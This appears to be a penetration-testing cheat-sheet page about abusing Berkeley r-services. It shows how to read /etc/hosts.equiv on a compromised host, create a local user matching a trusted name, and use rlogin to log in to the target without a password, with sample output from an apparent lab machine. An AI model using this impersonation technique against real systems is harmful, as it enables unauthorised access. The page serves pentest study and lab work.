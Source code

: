 ```yaml
---
title: "R Services"
date: 2025-7-16
tags: ["R Services", "rlogin", "rexec", "rsh", "r-commands", "Shell", "Berkeley"]
---
```


### Abuse #1: Fake a User

#### 1. Check

```console
cat /etc/hosts.equiv
```

```console {class="sample-code"}
(remote) www-data@reset:/home/sadm$ cat /etc/hosts.equiv
# /etc/hosts.equiv: list  of  hosts  and  users  that are granted "trusted" r
#                   command access to your system .
- root
- local
+ sadm
```

#### 2. Create the Target User Locally

```console
# Create a fake user
sudo useradd <USER>
```

```console
# Set password
sudo passwd <USER> 
```

```console {class="sample-code"}
$ sudo useradd sadm
                                                                                                                                                                                                                                                                                                                            
$ sudo passwd sadm 
New password: 
Retype new password: 
passwd: password updated successfully
                                                                                                                                                                                                                                                                                                                            
$ cat /etc/passwd | grep sadm
sadm:x:1001:1001::/home/sadm:/bin/sh
```

```console
# Switch user
su <USER>
```

#### 3. Connect

```console
# Installation
sudo apt install rsh-redone-client
```

```console
# Connect
rlogin <TARGET>
```

#### 4. Revert

```console
sudo userdel <USER>
```